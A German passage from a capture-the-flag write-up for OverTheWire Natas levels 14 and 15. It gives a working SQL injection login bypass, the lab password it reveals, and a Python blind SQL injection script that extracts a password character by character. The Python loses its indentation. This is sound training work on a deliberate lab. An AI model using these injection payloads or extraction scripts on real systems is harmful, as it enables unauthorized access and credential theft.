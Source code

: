 ```php
  { 
    echo "Successful login! The password for natas15 is <censored><br>"; 
  } 
  else 
  { 
    echo "Access denied!<br>"; 
  } 
  mysql_close($link);
[...]
```

Wir können die genaue SQL Abfrage sehen, welche gemacht wird:

```sql
SELECT * FROM users WHERE username="USER_INPUT" AND password="USER_INPUT"
```

Wir können nun eine ganz einfache SQL Injection machen, um an das Passwort zu kommen  
```sql
username=test" OR "1"="1  
password=test" OR "1"="1
```

Dadurch erhalten wir folgende SQL Abfrage

```sql
SELECT * FROM users WHERE username="test" OR "1"="1" AND password="test" OR "1"="1"
```

Wir werden also also als irgendein beliebiger Benutzer eingeloggt.

```shell
http://natas14.natas.labs.overthewire.org/?username=test" OR "1"="1&password=test" OR "1"="1
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

## **Level 14 -> Level 15**

```shell
root@kali:~# vim bruteforce.py
import requests
from requests.auth import HTTPBasicAuth

chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
correct = ''
passwd = ''

for char in chars:
Data = {'username' : 'natas16" and password LIKE BINARY "%' + char + '%" #'}
r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
if 'exists' in r.text :
correct += char
print(correct)

for i in range(0,32):
for char in correct:
Data = {'username' : 'natas16" and password LIKE BINARY "' + passwd + char + '%" #'}
r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
if 'exists' in r.text :
passwd += char
print(passwd)
break
```
